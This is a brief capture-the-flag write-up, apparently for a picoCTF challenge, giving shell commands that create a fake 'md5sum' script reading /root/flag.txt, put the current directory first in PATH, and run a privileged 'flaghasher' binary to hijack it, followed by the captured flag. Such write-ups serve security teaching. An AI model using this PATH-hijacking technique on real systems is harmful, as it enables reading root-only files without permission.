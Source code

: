 ssh into address in the challenge:

```
echo -e '#!/bin/bash\ncat /root/flag.txt' > md5sum
chmod +x md5sum
export PATH=.:$PATH
./flaghasher
```

copy and paste the above into the terminal.

picoCTF{sy5teM_b!n@riEs_4r3_5c@red_0f_yoU_bfa4a3f5}
